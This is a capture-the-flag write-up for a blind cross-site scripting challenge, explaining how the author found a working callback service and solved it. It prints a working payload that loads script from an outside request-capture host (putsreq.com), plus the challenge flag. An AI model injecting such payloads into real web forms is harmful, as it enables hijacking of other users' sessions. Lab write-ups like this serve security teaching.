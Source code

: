 # XSS Challenge 2

### Author

[Mr.Un1k0d3r](https://twitter.com/mrun1k0d3r)

### Description

Our XSS Bot is only able to get out on ports 80 and 8080 to 8090 don't forget this little detail when you gonna build your payload. 
 
## Solution
 
Opening the challenge page we see a simple form where we can post our feedback. By the challenge title (and description) it is clear that we need to do a blind XSS. After a lot of tries using requestbin to generate a simple payload able to ping our bin we realized that requestbin listen only to https requests. Hence, we switched to putsreq and the simple payload
```
<script src=https://putsreq.com/aljcvfpHtSnOHC0kvx10></script>
```
gives us the flag `FLAG-q844e54902w2g4J13U4xl3410D`.

